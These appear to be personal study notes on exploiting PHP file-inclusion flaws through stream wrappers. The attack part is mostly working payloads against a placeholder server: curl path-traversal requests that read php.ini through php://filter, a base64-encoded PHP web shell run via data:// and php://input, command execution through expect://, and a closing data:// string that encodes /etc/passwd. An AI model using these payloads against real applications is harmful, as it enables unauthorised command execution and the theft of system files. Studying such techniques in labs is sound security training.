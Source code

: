 
allow_url_include is needed for various LFI attacks and all RFI attacks

We need to check for allow_url_include

Determine if allow_url_include is enabled (X.Y for php version)
```
/etc/php/X.Y/apache2/php.ini (Apache)
/etc/php/X.Y/fpm/php.ini (Nginx)
```


### Base64 Wrapper

Reading config file with curl
```shell-session
curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini" (Apache)

curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/X.Y/fpm/php.ini"
```

### Data Wrapper

Reverse shell encoding
```shell-session
echo '<?php system($_GET["cmd"]); ?>' | base64
```

Reverse shell Payload (Can be done with curl as well)
```http
http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id
```
### Input Wrapper

(Sending data via curl)(Must accept post request)
```shell-session
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
```

**Note:** To pass our command as a GET request, we need the vulnerable function to also accept GET request (i.e. use `$_REQUEST`). If it only accepts POST requests, then we can put our command directly in our PHP code, instead of a dynamic web shell (e.g. `<\?php system('id')?>`)

### Expect Wrapper

Allows for commands to be ran through url streams

It's an external wrapper so we must check for it (Can be found in config)
```shell-session
extension=expect
```

Passing command through url stream
```shell-session
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
```

data://text/plain;base64,L2V0Yy9wYXNzd2QK